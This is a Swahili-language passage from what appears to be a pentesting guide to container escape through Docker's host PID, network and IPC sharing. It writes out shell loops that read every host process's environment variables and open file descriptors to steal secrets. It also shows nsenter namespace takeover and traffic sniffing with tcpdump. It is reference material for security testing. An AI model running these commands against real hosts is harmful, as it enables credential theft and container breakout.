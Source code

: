 Kisha, kama unaweza **kufikia kila mchakato wa mwenyeji katika /proc/, unaweza tu kuiba siri zao za mazingira** kwa kukimbia:
```bash
for e in `ls /proc/*/environ`; do echo; echo $e; xargs -0 -L1 -a $e; done
/proc/988058/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=argocd-server-69678b4f65-6mmql
USER=abrgocd
...
```
Unaweza pia **kufikia maelezo mengine ya faili za michakato na kusoma faili zao zilizofunguliwa**:
```bash
for fd in `find /proc/*/fd`; do ls -al $fd/* 2>/dev/null | grep \>; done > fds.txt
less fds.txt
...omitted for brevity...
lrwx------ 1 root root 64 Jun 15 02:25 /proc/635813/fd/2 -> /dev/pts/0
lrwx------ 1 root root 64 Jun 15 02:25 /proc/635813/fd/4 -> /.secret.txt.swp
# You can open the secret filw with:
cat /proc/635813/fd/4
```
Unaweza pia **kuua michakato na kusababisha DoS**.

{% hint style="warning" %}
Ikiwa kwa namna fulani una **upatikanaji wa mamlaka juu ya mchakato nje ya chombo**, unaweza kukimbia kitu kama `nsenter --target <pid> --all` au `nsenter --target <pid> --mount --net --pid --cgroup` ili **kuanzisha kabia na vikwazo sawa vya ns** (kwa matumaini hakuna) **kama mchakato huo.**
{% endhint %}

### hostNetwork
```
docker run --rm -it --network=host ubuntu bash
```
Ikiwa chombo kilikonfigurwa na Docker [dereva ya mtandao wa mwenyeji (`--network=host`)](https://docs.docker.com/network/host/), mtandao wa chombo hicho haujaachwa peke yake kutoka kwa mwenyeji wa Docker (chombo hushiriki uwanja wa mtandao wa mwenyeji), na chombo hakitapata anwani yake ya IP yenyewe. Kwa maneno mengine, **chombo hufunga huduma zote moja kwa moja kwa anwani ya IP ya mwenyeji**. Zaidi ya hayo, chombo kinaweza **kukamata MAANDISHI YOTE ya mtandao ambayo mwenyeji** anatuma na kupokea kwenye kiolesura kilichoshirikiwa `tcpdump -i eth0`.

Kwa mfano, unaweza kutumia hii kwa **kukamata na hata kughushi trafiki** kati ya mwenyeji na kielelezo cha metadata.

Kama katika mifano ifuatayo:

* [Maelezo: Jinsi ya kuwasiliana na Google SRE: Kudondosha kabati katika SQL ya wingu](https://offensi.com/2020/08/18/how-to-contact-google-sre-dropping-a-shell-in-cloud-sql/)
* [HUDUMA YA METADATA MITM inaruhusu ukuaji wa mamlaka ya msingi (EKS / GKE)](https://blog.champtar.fr/Metadata\_MITM\_root\_EKS\_GKE/)

Pia utaweza kupata **huduma za mtandao zilizofungwa kwa localhost** ndani ya mwenyeji au hata kupata **ruhusa za metadata ya node** (ambazo zinaweza kutofautiana na zile ambazo chombo kinaweza kupata).

### hostIPC
```bash
docker run --rm -it --ipc=host ubuntu bash
```
Kwa `hostIPC=true`, unapata ufikio wa rasilimali za mawasiliano kati ya michakato (IPC) ya mwenyeji, kama vile **kumbukumbu iliyoshirikiwa** katika `/dev/shm`. Hii inaruhusu kusoma/kuandika ambapo rasilimali sawa za IPC hutumiwa na michakato mingine ya mwenyeji au poda. Tumia `ipcs` kuchunguza zaidi mifumo hii ya IPC.
